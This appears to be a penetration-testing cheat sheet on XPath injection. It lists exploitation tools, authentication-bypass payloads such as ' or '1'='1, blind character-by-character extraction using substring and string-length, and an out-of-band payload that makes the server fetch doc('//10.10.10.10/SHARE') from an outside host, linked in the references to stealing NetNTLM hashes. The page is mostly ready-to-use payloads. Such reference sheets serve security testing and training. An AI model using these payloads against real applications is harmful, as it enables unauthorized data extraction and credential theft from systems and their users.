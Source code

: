 # XPATH Injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Summary

* [Tools](#tools)
* [Exploitation](#exploitation)
* [Blind exploitation](#blind-exploitation)
* [Out Of Band Exploitation](#out-of-band-exploitation)
* [References](#references)

## Tools

- [orf/xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool


## Exploitation

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c
```

## Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```
2. Extract a character
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

## Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## References

- [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
- [XPATH Injection - OWASP - January 21, 2015](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))